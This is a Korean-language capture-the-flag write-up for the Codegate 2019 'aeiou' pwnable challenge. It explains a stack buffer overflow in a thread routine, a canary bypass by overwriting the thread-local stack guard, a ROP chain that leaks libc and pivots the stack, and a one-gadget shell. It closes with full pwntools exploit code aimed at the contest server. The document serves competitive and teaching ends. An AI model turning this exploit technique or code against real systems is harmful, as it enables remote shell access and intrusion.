 ```yaml
---
layout: post
title: ! "[Codegate 2019] aeiou Write-up"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Codegate2019
  - Write-up
  - CTF
  - pwnable
---
```

### Description

> nc 110.10.147.109 17777

> [aeiou](../images/myria/aeiou-writeup/onewrite)


<!--more-->
주어진 바이너리를 실행하면 아래와 같은 메뉴를 확인할 수 있다.

```bash
Raising a Baby
-------------------------------------
[1] Play with Cards
[2] Clearing the Cards
[3] Teaching numbers
[4] Sleeping the Baby
[5] Dancing with Baby!
[6] Give the child blocks!
[7] Sleep me
--------------------------------------
>>
```


 하지만 어떤 메뉴를 선택하든 프로그램은 그 메뉴를 한번 실행하고 종료되기 때문에, 단 한 번에 공격이 이루어져야 한다.
 바이너리를 분석해보면 `pthread_create함수`로 새로운 스레드를 생성하여 `start_routine` 함수를 실행하는 부분이 있다. 이 `start_rountine`(0x4013AA)함수의 C 의사코드는 아래와 같다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_02.PNG)

 버퍼는 0x1000만큼 할당되어있지만 입력은 0x10000만큼 입력할 수 있다. 이는 BOF가 있음을 알려준다.

 ```bash
 [*] '/home/myria/CTF/CODEGATE/aeiou/aeiou'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x400000)
 ```

 하지만 카나리가 있기 때문에 BOF를 통해 바로 return address를 덮어씌울 방법이 없다.
 이를 우회하기위해 pthread_create함수가 이용된다. 스레드가 pthread_create함수에 의해 생성될 경우, 스레드의 스택에 `Thread Local Storage(TLS)`를 사용하여 변수를 저장한다. 즉, 스레드의 스택에 `stack_guard`(=카나리값)이 존재하기 때문에 이를 덮어씌우면 BOF를 사용하여 RIP를 컨트롤 할 수 있다.

 이제 `ROP기법`을 이용하여 라이브러리 주소를 유출(leak)하고 `원샷가젯 (execve("/bin/sh", rsp+0x30, environ))`을 실행하면 된다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_03.PNG)

### Full exploit code

```python
from pwn import *

conn = remote("110.10.147.109", 17777)
#conn = process("./aeiou")


def Teaching(num, data):
	conn.recvuntil(">>")
	conn.sendline("3")
	conn.recvuntil("Let me know the number!\n")
	conn.sendline(str(num))
	conn.send(data)

pop_rdi = 0x4026f3
pop_rsi_r15 = 0x4026f1
bss_addr = 0x604110

# leak atol (libc_address)
payload  = p64(pop_rdi) # pop rdi; ret;
payload += p64(0x603FC0) # atol@GOT
payload += p64(0x400B58) # jmp puts@PLT

# read(0, 0x602030, SIZE) %% rdi=0, rsi=0x602030, rdx = big value
payload += p64(pop_rdi) # pop rdi; ret;
payload += p64(0)		 # stdin
payload += p64(pop_rsi_r15) # pop rsi; pop r15; ret;
payload += p64(bss_addr)
payload += p64(0)		# r15 <= garbage
payload += p64(0x400B88) # jmp read@PLT

# rsp -> bss
payload += p64(0x4026ed) # pop rsp; pop r13; pop r14; pop r15; ret
payload += p64(bss_addr)


Data  = "A"*(0x1010-8)
Data += p64(0xdeadbeefcafebabe) # fake canary
Data += "B"*8 	# sfp
Data += payload # rop chain
Data += "C" * (2000-len(payload)) # rop chain
Data += p64(0xdeadbeefcafebabe) # fake canary

Teaching(0x1010 + 2008 + 8, Data)


# leak
conn.recvuntil("Thank You :)\n")
libc_base = u64(conn.recv(6).ljust(8, "\x00")) - 0x36ea0
log.info("libc_base: " + hex(libc_base))

"""
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
	[rsp+0x30] == NULL
"""

one_gadget = libc_base + 0x4526a
log.info("oneshot : " + hex(one_gadget))

payload  = p64(0) * 3 # pop r13; pop r14; pop r15; ret
payload += p64(one_gadget)
payload += '\x00' * 0x40  ## [rsp+0x30] == NULL

conn.sendline(payload)
conn.interactive()
```
